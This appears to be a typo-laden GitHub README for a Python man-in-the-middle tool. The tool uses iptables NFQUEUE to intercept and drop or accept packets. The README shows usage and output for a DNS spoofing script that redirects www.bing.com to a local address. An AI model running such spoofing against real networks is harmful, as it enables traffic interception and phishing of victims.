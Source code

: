 ## MITM Manage packets 

Tha python program manage inbound traffic for traget ip server to the router server that forward by our host.

For  make this task the application use commadn system Ipetables and netfilterqueue of python.

Itables at the init of the program enable NFQUEUE on local inbound traffic and python library consume all packets 
like a virtual fw/proxy/balancer  or other... In that case has option to modify the packet and accept or drop it.

# How to use

    root@kali:~/PycharmProjects/mitm_process.py# python mitm.process.py -h
    [*] Start program ....MitM 
    Usage: mitm.process.py [options]
    
    Options:
       -h, --help            show this help message and exit
       -q QUEUE, --queue=QUEUE
                        Queue Number of Iptables for ingping traffic
        -o TRAFFIC, --option=TRAFFIC
                        Allow/Drop packages

# Execution 

    root@kali:~/PycharmProjects/mitm_process.py# python mitm.process.py -q 0 -o Allow
    [*] Start program ....MitM 
    [*] Traffic type = Allow
    Enable Iptables queue for input target packets ... on queue number 0
    UDP packet, 74 bytes
    UDP packet, 181 bytes
    TCP packet, 52 bytes
    TCP packet, 44 bytes
    TCP packet, 40 bytes
    TCP packet, 255 bytes
    TCP packet, 1500 bytes
    TCP packet, 40 bytes
    TCP packet, 204 bytes
    TCP packet, 40 bytes
    ^C[*] CRTL +C Detecting ... Flush queue for Iptables on local machine 
    [*] End program 

# dependencies

    netfilterqueue
    subprocess
    optparse

# Dns Spoofing under MITM attack

    root@kali:~/PycharmProjects/mitm_process.py# python dns_spoofing.py -o "www.bing.com" -d "10.0.2.15"
    init attack ....DNS 
    Enable Iptables queue for input target packets ... on queue number 0
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    ^C[*] CRTL +C Detecting ... Flush queue for Iptables on local machine 
    [*] End program 


![spoof-1]()


![spoof-2]()
 